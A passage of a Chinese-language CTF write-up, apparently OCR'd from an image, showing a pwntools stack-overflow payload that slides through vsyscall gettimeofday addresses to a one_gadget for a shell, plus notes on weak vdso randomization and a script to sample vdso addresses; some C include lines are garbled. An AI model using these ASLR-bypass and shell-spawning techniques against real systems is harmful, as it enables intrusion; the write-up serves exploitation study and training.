 (3) 最后一关执行栈溢出，利用 gettimeofday 滑至 one_gadegt 从而 getshell。

```
#注释头
 
io.recvuntil('Question: ')
io.send(b'a'*0x38 + p64(vsyscall_gettimeofday)*3)
io.interactive()

```

▲以下是测试 [rbp+var_110] 的数据：

main 函数中的 rbp:    00007FFD3A854900

hint 函数中的 rbp:      00007FFD3A8548C0

go 函数中的 rbp:        00007FFD3A8548C0

▲vsyscall 用法:

vsyscall 直接进行 syscall，并没有利用栈空间，所以在处理栈溢出，但是由于 PIE 没有别的地址可以用时，而栈上又有某个有用的地址的时候，可以通过 vsyscall 构造一个 rop 链来 ret，每次 ret 都会消耗掉一个地址，将 rsp 下拉一个单位，这样就可以逐渐去贴近想要的那个地址，最后成功 ret 到相应的位置。

▲vdso 的特点：

(1)vdso 的地址随机化的，且其中的指令可以任意执行，不需要从入口开始。

(2) 相比于栈和其他的 ASLR，vdso 的随机化非常的弱，对于 32 的系统来说，有 1/256 的概率命中。

(3) 不同的内核随机程度不同：

A. 较旧版本：`0xf76d9000`-`0xf77ce000`

B. 较新版本：`0xf7ed0000`-`0xf7fd0000`

C. 其它版本：

可以编译以下文件之后用脚本查看：

```
//注释头
 
// compiled: gcc -g -m32 vdso_addr.c -o vdso_addr
#include  #include  #include  int main()
{
    printf("vdso addr: %124$p\n");//这里的偏移不同内核不一样，可调试一下看看。
    return 0;
} 
```

查看脚本：

```
#注释头
 
#!/usr/bin/python
# -*- coding:utf-8 -*-
 
import os
 
result = []
for i in range(100):
    result += [os.popen('./vdso_addr').read()[:-1]]
 
result = sorted(result)
 
for v in result:
    print (v)

```
